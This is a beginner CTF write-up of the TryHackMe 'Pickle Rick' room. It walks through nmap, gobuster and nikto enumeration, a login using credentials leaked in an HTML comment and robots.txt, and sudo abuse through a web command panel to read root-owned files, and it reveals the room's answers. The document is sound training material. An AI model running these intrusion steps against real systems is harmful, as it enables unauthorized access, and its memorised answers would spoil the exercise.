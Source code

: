 ```yaml
---
author: Chance Johnson
description: Beginner level web server CTF by tryhackme on TryHackMe.
layout: post
title: Pickle Rick
---
```

[Pickle Rick](https://tryhackme.com/room/picklerick) is a beginner level web app CTF on TryHackMe by tryhackme. For this challenge, I will use Kali Linux.

# 1. What is the first ingredient Rick needs?
The description of this challenge says to exploit a web server. First I opened up Firefox and entered the given IP:
![[Screenshot from 2023-03-31 17-43-44.png]]

The text at the bottom says we must log on to Rick's computer and find three ingredients to complete the pickle-reverse potion. The problem is that Rick forget his password.

Upon inspecting the HTML of the website, I found the following comment in the `<body>` tag:
```
<!--
	Note to self, remember username!
	Username: R1ckRul3s
-->
```

Now I've got a username, `R1ckRul3s`, but where can I use it? I'll do some more enumeration:
```
sudo nmap 10.10.225.43
```

Output:
```
22/tcp open  ssh
80/tcp open  http
```

There appears to be an SSH server listening on `22/tcp`.  When I attempt to login to the server with the "R1ckRul3s" username, I get a "permission denied (publickey)" message. 

I'll look for some more resources:
```
gobuster dir -u http://10.10.225.43/ -w /usr/share/wordlists/dirb/common.txt
```

The following resources were discovered:
```
/.hta
/.htpasswd
/.htaccess
/assets
/index.html
/robots.txt
/server-status
```

The `/server-status` page gave me an HTTP 403 Forbidden error. On the `/robots.txt` page was the text: `Wubbalubbadubdub`. 

I'm going to do some more enumeration with Nikto:
```
nikto -host http://10.10.225.43
```

Output:
```
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /login.php: Admin login page/section found.
```

Looks like this is an Apache server running on an Ubuntu host. The scan also found a`/login.php` page:
![[Screenshot from 2023-03-31 17-55-40 1.png]]

I already know the username is `R1ckRul3s`, but what is the password? I'll try that text that was in the `/robots.txt` file: `Wubbalubbadubdub`.

Looks like it was successful. I am logged into what appears to be some kind of admin panel at `/portal.php`:
![[Screenshot from 2023-03-31 18-00-47.png]]

I already know this website is being hosted on an Ubuntu host, so I'm assuming this is an interface for running Bash commands. I typed in `ls` into the input field, and the following was printed to page:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

I appear to be in the root directory of the web server. It looks like one of the ingredients can be found in `Sup3rS3cretPickl3Ingred.txt`. I attempted to view the contents of this file with the command `cat Sup3rS3cretPickl3Ingred.txt`, but I was greeted with the following page:
![[Screenshot from 2023-03-31 18-09-36.png]]

I navigated to `http://10.10.225.43/Sup3rS3cretPickl3Ingred.txt` which displayed the text `mr. meeseek hair`.

**Answer**: mr. meeseek hair

# 2. Whats the second ingredient Rick needs?
There's another file in the web server root called `clue.txt`. I navigated to `http://10.10.225.43/clue.txt` and found the text `Look around the file system for the other ingredient.`.

I found another user `rick` in the `/home` directory, so I executed `ls /home/rick`, and found another regular file named `second ingredients`. Now how do I open this file? First, I attempt to copy the file to the web server root directory:

```
cp "/home/rick/second ingredients" .
```

However this didn't seem to work, so I must not have sufficient permissions. After some messing around, I discovered I can execute commands as the root user:
```
sudo -u root whoami
```

Output: `root`. I'll attempt to copy the file again:
```
sudo -u root cp "/home/rick/second ingredients" .
```

This time it appears to have worked, so I'll navigate to `http://10.10.225.43/second ingredients` where I find the text `1 jerry tear`.

**Answer**: 1 jerry tear

# 3. Whats the final ingredient Rick needs?
After some digging around, I found a text file called `3rd.txt` in the `/root` directory. I copied that to the Apache web server's root directory:
```
sudo -u root cp /root/3rd.txt .
```

And navigated to `http://10.10.225.43/3rd.txt`, where I found the text `3rd ingredients: fleeb juice`.

**Answer**: fleeb juice

